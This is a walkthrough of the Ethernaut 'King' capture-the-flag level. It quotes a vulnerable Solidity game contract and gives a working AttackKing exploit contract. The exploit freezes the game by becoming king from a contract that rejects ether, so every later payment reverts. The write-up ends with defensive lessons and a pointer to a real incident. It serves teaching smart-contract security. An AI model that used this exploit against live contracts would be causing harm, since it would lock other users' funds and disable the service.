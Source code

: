 # King

![https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg](https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg)

# Objectives

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

# Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

# Analysis

This challenge wants us to become the new King of this game in a way that the game fails afterwards and no one else can become the new king anymore. The real magic happening in the `receive()` function. Let’s take a look - 

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  payable(king).transfer(msg.value);
  king = msg.sender;
  prize = msg.value;
}
```

It’s an external fallback function which is `payable` and it does a requirement checks to see if the value we sent in this function is more than the current prize or the `msg.sender` is the current owner. Once the requirement passes, it will transfer the value to the previous king’s address and then it will set the new king and prize.

A quick check on the prize using `await contract.prize()` tells us that the current prize is `1000000000000000 wei` or `0.001 Ether` , so we have send at lease 0.001 Ether to be the new owner.

# AntiSec

To exploit this game, we need to make sure that once we become the new king, no other users can send Ether to our address any more and the `receive()` function in the `King` contract will always fail.
To achieve that all we have to do is call the send the `Ether` from an another contract which will do not have any `fallback` or `receive` function, so that it does not accept any sorts of Ethers using the `transfer()` method and will always revert the value back to the sender.

To write the Hack contract, I will use `RemixIDE`, and I will send `0.001` Ether to the `King`'s contract. We will write a constructor which will be payable, that allows us to send some Ether while deploying the contract. And it will automatically trigger the `receive()` function in the `King`'s contract. The `msg.value` is set to `prize` which we are dynamically fetching from the victim contract.

Since we did not implemented any `receive()` or `fallback()` function, no one else can send Ether to our `AttackKing` contract using a normal `transfer()` call. We can implement a `receive()` or `fallback()` function with a `revert` statement, however it does the same thing, hence I left it out of the code.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract AttackKing {
    constructor(address payable _victim) payable {
        uint prize = King(_victim).prize();
        (bool ok, ) = _victim.call{value: prize}("");
        require(ok, "failed");
    }
}

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

# Key Takeaways

External calls should be used with caution and proper error handling should be implemented on all external calls. Wrong use of methods can exploit an entire contract and it’s balances.

Also use `transfer()` method with caution, don’t use it if you are not sure these are account addresses, and if you want to run logics after using this method. It is better to use `call()` because that allows us to check if a transfer was successful or not.

Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).
